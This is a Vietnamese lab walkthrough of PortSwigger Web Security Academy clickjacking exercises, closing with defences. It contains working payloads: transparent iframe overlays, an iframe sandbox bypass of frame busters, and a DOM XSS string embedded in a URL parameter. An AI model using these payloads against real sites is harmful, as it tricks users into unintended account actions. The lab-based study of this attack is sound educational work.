## Clickjacking là gì?

Clickjacking là kiểu tấn công giao diện, trong đó kẻ tấn công lừa người dùng click vào nội dung mà họ không biết, thường bằng cách đặt một trang web/iframe ẩn hoặc trong suốt chồng lên một trang web giả. 

Ví dụ:
- Người dùng vào một trang giả và thấy nút “Nhận phần thưởng”.
- Khi click vào nút đó, thực tế họ lại đang click vào một nút ẩn trên website khác.
- Hành động này có thể khiến tài khoản thực hiện một thao tác ngoài ý muốn, chẳng hạn thanh toán.

Cơ chế: Trang giả -> Nội dung dụ người dùng click -> iframe ẩn -> Nút thật trên website mục tiêu -> Người dùng vô tình thực hiện hành động

Clickjacking khác CSRF thế nào?
- Clickjacking: cần người dùng thực hiện hành động, ví dụ click nút.
- CSRF: kẻ tấn công cố gắng giả mạo request để thực hiện hành động mà người dùng không cần chủ động click.

Việc bảo vệ chống lại các cuộc tấn công CSRF thường được thực hiện bằng cách sử dụng CSRF token: một số hoặc nonce (giá trị dùng một lần) dành riêng cho từng phiên làm việc. Tuy nhiên, các cuộc tấn công Clickjacking không được ngăn chặn bởi CSRF token, vì một phiên làm việc mục tiêu được thiết lập với nội dung được tải từ website chính thống, và tất cả các request đều diễn ra trên cùng một domain. CSRF token được đặt vào các request và được gửi đến server như một phần của một phiên làm việc diễn ra bình thường. Điểm khác biệt so với một phiên người dùng thông thường là quá trình này diễn ra bên trong một iframe bị ẩn.

## Cách xây dựng một cuộc tấn công Clickjacking cơ bản

Các cuộc tấn công Clickjacking sử dụng CSS để tạo và điều khiển các lớp. Kẻ tấn công đưa website mục tiêu vào một iframe, sau đó đặt iframe này chồng lên trên website giả. Ví dụ sử dụng thẻ style và các tham số:

```
<head>
    <style>
        #target_website {
            position: relative;
            width: 128px;
            height: 128px;
            opacity: 0.00001;
            z-index: 2;
        }

        #decoy_website {
            position: absolute;
            width: 300px;
            height: 400px;
            z-index: 1;
        }
    </style>
</head>

<body>
    <div id="decoy_website">
        ... nội dung website giả ...
    </div>

    <iframe id="target_website"
            src="https://vulnerable-website.com">
    </iframe>
</body>
```

Website mục tiêu trong iframe được định vị trên trình duyệt sao cho hành động mục tiêu nằm chính xác chồng lên vị trí của nội dung giả trên website mồi, bằng cách thiết lập các giá trị chiều rộng, chiều cao và vị trí phù hợp. Các giá trị position: absolute và position: relative được sử dụng để đảm bảo website mục tiêu chồng chính xác lên website giả, bất kể kích thước màn hình, loại trình duyệt hay nền tảng. z-index xác định thứ tự xếp chồng của iframe và các lớp website. Giá trị z-index cao hơn sẽ được đặt lên trên.

Giá trị opacity được đặt bằng 0.0 (hoặc gần 0.0) để nội dung iframe trở nên trong suốt đối với người dùng.

Một số trình duyệt có thể áp dụng cơ chế bảo vệ Clickjacking bằng cách phát hiện iframe có độ trong suốt vượt qua một ngưỡng nhất định. Ví dụ, Chrome phiên bản 76 có cơ chế này, trong khi Firefox thì không. Do đó, kẻ tấn công lựa chọn giá trị opacity phù hợp để đạt được hiệu ứng mong muốn mà không kích hoạt cơ chế bảo vệ của trình duyệt.

Lab 1: Basic clickjacking with CSRF token protection



Payload:

```
<style>
#target {
    position: relative;
    width: 700px;
    height: 600px;
    opacity: 0.00001;
    z-index: 2;
}
#decoy {
    position: absolute;
    z-index: 1;
    top: 500px;
    left: 50px;
}
</style>

<div id="decoy">
    CLICK
</div>

<iframe
    id="target"
    src="https://0a8c0016038ab00380913a7300180025.web-security-academy.net/my-account">
</iframe>
```

Gửi payload đến body của server và exploit, ta sẽ solve được bài lab



## Clickjacking với form được điền sẵn

Kẻ tấn công chèn dữ liệu vào URL để điền sẵn form, rồi phủ nút Submit trong suốt lên trang giả nhằm khiến nạn nhân vô tình gửi form với dữ liệu do kẻ tấn công kiểm soát.

Lab 2: Clickjacking with form input data prefilled from a URL parameter

Yêu cầu bài lab



Vì tồn tại URL tự động điền email



Payload:

```
<style>
iframe {
    position: relative;
    width: 700px;
    height: 500px;
    opacity: 0.1;
    z-index: 2;
}

#decoy {
    position: absolute;
    z-index: 1;
    top: 480px;
    left: 50px;
}
</style>

<div id="decoy">CLICK</div>

<iframe
    src="https://0a3a00f7048782bc80a1587e00f9001b.web-security-academy.net/my-account?email=phuc222929@gmail.com">
</iframe>
```

Hoàn thành bài lab



## Frame busting scripts

Clickjacking có thể xảy ra khi website cho phép bị nhúng vào iframe. Vì vậy, các biện pháp phòng chống thường tập trung vào việc hạn chế khả năng website bị frame. Một biện pháp phổ biến phía client là sử dụng frame busting/frame breaking scripts — các đoạn JavaScript giúp website tự bảo vệ khi bị nhúng vào frame. Chúng thường thực hiện một hoặc nhiều hành vi:
- Kiểm tra và đảm bảo cửa sổ hiện tại là cửa sổ chính
- Làm cho tất cả các frame trở nên hiển thị.
- Ngăn người dùng click vào các frame ẩn.
- Phát hiện và cảnh báo người dùng về khả năng bị clickjacking.

Tuy nhiên, kỹ thuật frame busting thường phụ thuộc vào trình duyệt/nền tảng và có thể bị attacker vượt qua do tính linh hoạt của HTML. Vì frame busting sử dụng JavaScript, nó có thể không hoạt động nếu JavaScript bị tắt hoặc bị hạn chế.

Một cách bypass là sử dụng thuộc tính HTML5 iframe sandbox. Nếu dùng sandbox với allow-forms hoặc allow-scripts nhưng không cho phép allow-top-navigation, script frame busting có thể bị vô hiệu hóa vì iframe không thể điều hướng cửa sổ lên top.

Ví dụ:

```
<iframe
    src="https://victim-website.com"
    sandbox="allow-forms">
</iframe>
```

Lab 3: Clickjacking with a frame buster script

Yêu cầu bài lab



Payload:

```
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 500px;
        opacity: 0.1;
        z-index: 2;
    }

    div {
        position: absolute;
        top: 465px;
        left: 80px;
        z-index: 1;
    }
</style>

<div>Click me</div>

<iframe
    sandbox="allow-forms"
    src="https://0aec004903b4193a8009033600a5008e.web-security-academy.net/my-account?email=phhuc@gmail.com">
</iframe>
```

Hoàn thành bài lab



## Kết hợp Clickjacking với tấn công DOM XSS

Cho đến nay, chúng ta đã xem Clickjacking như một cuộc tấn công độc lập. Trong quá khứ, Clickjacking từng được sử dụng để thực hiện những hành vi như tăng số lượt “Like” trên một trang Facebook. Tuy nhiên, sức mạnh thực sự của Clickjacking được thể hiện khi nó được sử dụng như một phương tiện để thực hiện một cuộc tấn công khác, chẳng hạn như DOM XSS. Việc kết hợp hai cuộc tấn công này tương đối đơn giản, với điều kiện attacker đã xác định được lỗ hổng XSS trước đó. Sau đó, payload XSS được kết hợp vào URL của iframe mục tiêu. Khi người dùng click vào nút hoặc liên kết được ngụy trang, thao tác đó sẽ khiến DOM XSS được thực thi.

Lab 4: Exploiting clickjacking vulnerability to trigger DOM-based XSS

Yêu cầu bài lab



DOM XSS:





Sau đó chèn tên vào:



Khi truy vấn thêm tham số tên người dùng, tự khắc được điền vào ô name



Thử payload `<b>test</b>`



Payload:

```
<style>
iframe {
    position: relative;
    width: 700px;
    height: 500px;
    opacity: 0.1;
    z-index: 2;
}

div {
    position: absolute;
    z-index: 1;
    top: 420px;
    left: 80px;
}
</style>

<div>Click me</div>

<iframe src="https://0a9b006d0475c7b3808803740067001a.web-security-academy.net/feedback?name=%3Cimg%20src%3D1%20onerror%3Dprint()%3E&email=hacker%40attacker-website.com&subject=test&message=test#feedbackResult"></iframe>   
```

Hoàn thành bài lab



## Clickjacking nhiều bước

Việc attacker thao túng các thao tác nhập liệu trên website mục tiêu có thể yêu cầu nhiều hành động liên tiếp. Ví dụ, attacker có thể muốn lừa người dùng mua một sản phẩm trên website bán hàng. Khi đó, trước tiên cần thêm sản phẩm vào giỏ hàng, sau đó mới thực hiện đặt hàng. Những hành động này có thể được attacker triển khai bằng cách sử dụng nhiều thẻ `<div>` hoặc `<iframe>`. Các cuộc tấn công dạng này đòi hỏi attacker phải căn chỉnh rất chính xác và cẩn thận, nếu muốn cuộc tấn công vừa hiệu quả vừa khó bị phát hiện.

Lab 5: Multistep clickjacking



Payload:

```
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 600px;
        opacity: 0.1;
        z-index: 2;
    }

    #decoy1 {
        position: absolute;
        z-index: 1;
        top: 300px;
        left: 200px;
    }

    #decoy2 {
        position: absolute;
        z-index: 1;
        top: 500px;
        left: 60px;
    }
</style>

<div id="decoy1">Click me next</div>
<div id="decoy2">Click me first</div>

<iframe src="https://0a1800c103f0aa9280f203a5000700d3.web-security-academy.net/my-account"></iframe>
```

Hoàn thành bài lab:



## Cách phòng chống Clickjacking

Có 2 cơ chế chính:
- X-Frame-Options: kiểm soát website có được nhúng vào iframe hay không, thường dùng DENY hoặc SAMEORIGIN.
- CSP frame-ancestors: kiểm soát nguồn nào được phép nhúng website, ví dụ frame-ancestors 'self'.

Khuyến nghị: dùng CSP frame-ancestors kết hợp X-Frame-Options để tạo lớp bảo vệ nhiều tầng chống Clickjacking.